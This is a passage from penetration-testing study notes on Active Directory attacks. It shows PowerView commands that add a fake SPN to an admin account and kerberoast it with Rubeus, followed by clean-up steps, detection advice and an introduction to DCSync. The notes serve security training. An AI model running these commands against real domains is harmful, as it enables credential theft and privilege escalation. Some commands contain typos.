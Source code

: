 - Check to see if the addition is successful
```PowerShell
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

- In case we cannot change the password (adunn is an admin account), we can leverage kerberoasting attack.

- First we create a fake SPN
```PowerShell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

- Kerberoasting with Rubeus
```PowerShell
Rubeues.exe kerberoast /user:adunn /nowrap
```

## Clean Up
- These are things we need to do after the attacks:
	1. Remove the fake SPN we created on user `adunn`
	2. Remove the damundsen user from "Help Desk Level 1"
	3. Set the password for damundsen back to the original value (or have the client alert the user if we don't know the password)

- Remove the fake SPN
```PowerShell
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```

- Remove the `damundsen` user from the "Help Desk Level 1" group
```PowerShell
reomve-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

- Confirm user has been removed
```PowerShell
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName | ? {$_.MemberName -eq 'damundsen'} -Verbose
```

## Detection and Mitigation
1. Audit and remove dangerous ACLs
2. Monitor group membership
3. Audit and monitor ACL changes
4. Monitor [EvenID 5136: A directory service object was modified](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-5136).


----
# DCSYNC
-----
- Technique to steal AD password database using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controller to replicate domain data -> Attackers can mimic a DC to retrieve NTLM hashes
- User must have `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-In-Filtered-Set` rights over the domain object.
